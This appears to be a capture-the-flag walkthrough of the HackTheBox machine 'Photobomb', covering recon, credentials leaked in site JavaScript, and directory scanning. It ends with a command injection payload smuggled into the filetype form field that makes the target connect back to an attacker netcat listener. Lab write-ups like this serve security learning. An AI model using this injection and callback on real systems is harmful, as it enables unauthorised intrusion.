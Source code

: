 # [27 - Photobomb](https://app.hackthebox.com/machines/Photobomb)

![Photobomb.png](Photobomb.png)

## description
> 10.10.11.182

## walkthrough

### recon

```
$ nmap -sC -sV -A -Pn -p- photobomb.htb
Starting Nmap 7.80 ( https://nmap.org ) at 2022-10-29 08:54 MDT
Nmap scan report for photobomb.htb (10.10.11.182)
Host is up (0.056s latency).
Not shown: 65533 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Photobomb
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

ok, pretty standard.

### 80

> Welcome to your new Photobomb franshise!
> You will soon be making an amazing income selling premium photographic gifts.

> This state of-the-art web application is your gateway to this fantastic new life. Your wish is its command.

> To get started, please click here! (the credentials are in your welcome pack).

> If you have any problems with your printer, please call our Technical Support team on 4 4283 77468377.

[here](http://photobomb.htb/printer) is a link

and `photobomb.js` has the content
```
function init() {
  // Jameson: pre-populate creds for tech support as they keep forgetting them and emailing me
  if (document.cookie.match(/^(.*;)?\s*isPhotoBombTechSupport\s*=\s*[^;]+(.*)?$/)) {
    document.getElementsByClassName('creds')[0].setAttribute('href','http://pH0t0:b0Mb!@photobomb.htb/printer');
  }
}
window.onload = init;
```

ok, some creds - which get us to a gallery of some sort, allowing us to specify file type and size, and a link to download

which is actually a POST
```
POST /printer HTTP/1.1
Host: photobomb.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:101.0) Gecko/20100101 Firefox/101.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 78
Origin: http://photobomb.htb
Authorization: Basic cEgwdDA6YjBNYiE=
Connection: close
Referer: http://photobomb.htb/printer
Upgrade-Insecure-Requests: 1

photo=voicu-apostol-MWER49YaD-M-unsplash.jpg&filetype=png&dimensions=1000x1500
```

piping that through sqlmap, nothing popping.

gobuster
```
/favicon.ico          (Status: 200) [Size: 10990]
/printers             (Status: 401) [Size: 188]
/printer              (Status: 401) [Size: 188]
```

interesting, `printers` gives us

```
Sinatra doesn’t know this ditty.
Try this:

get '/printers' do
  "Hello World"
end
```

ohai ruby

```
Bad Request
bad URI `/]'.
WEBrick/1.6.0 (Ruby/2.7.0/2019-12-25) at photobomb:4567
```

wait webrick and sinatra?

POSTing `photo=../../../../../etc/passwd` gives `Invalid photo`

trying SSTI in file and dimensions lead to "Invalid <type>"

`http://photobomb.htb/ui_images/wolfgang-hasselmann-RLEgmd1O7gs-unsplash.jpg` gives the thumbnail image

wrote [foo.rb](foo.rb) to pull all the thumbnails while waiting for gobuster to finish scanning that dir for anything else

```
$ find . -iname '*.jpg' -exec stegseek {} \;           
...
```
nothing useful. same with strings


trying more injection in parameters we do control

```
photo=voicu-apostol-MWER49YaD-M-unsplash.jpg&filetype=png;nc%2010.10.14.5 4444&dimensions=30x20
```

led to

```
$ nc -lv 4444
Listening on 0.0.0.0 4444
Connection received on photobomb.htb 41866
```

boom baby. 



## flag
```
user:
root:
```
